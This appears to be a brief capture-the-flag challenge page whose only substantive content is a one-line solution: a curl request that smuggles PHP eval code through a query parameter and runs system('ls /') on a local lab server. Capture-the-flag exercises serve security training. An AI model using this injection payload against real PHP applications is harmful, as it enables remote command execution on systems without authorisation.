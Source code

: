 #### Goals
 * Get the flag

#### Solution
```
curl "http://localhost/?str=${eval($_REQUEST[c])}&c=system('ls /');"
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

